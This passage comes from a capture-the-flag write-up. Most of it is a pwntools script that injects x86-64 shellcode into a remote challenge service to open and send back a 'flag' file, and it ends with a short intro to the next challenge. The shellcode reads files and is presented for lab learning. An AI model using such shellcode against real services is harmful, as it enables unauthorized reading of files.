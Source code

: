 
```python
from pwn import *

context.arch = "amd64"
#context.log_level = debug

def print_clean(data):
    data = data.split(b"\n")
    for i in data:
        print(i.decode("latin-1"))

# shellcode goes here
shellcode = asm(f"""

.global _start
.intel_syntax noprefix

_start:

lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall


flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 10559)
print_clean(p.recvuntil(b"Reading 0x1000 bytes from stdin.\n"))
p.sendline(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Solution: Shellcode Challenge 2

First thing we do is, like the previous challenge, edit the boilerplate file with the new port and navigate to the target and observing the webpage, we can see that the flag is in the same location but that "This challenge reads in much fewer bytes." and this statement is reinforced by another line that states the following: "Reading 0x18 bytes from stdin.".
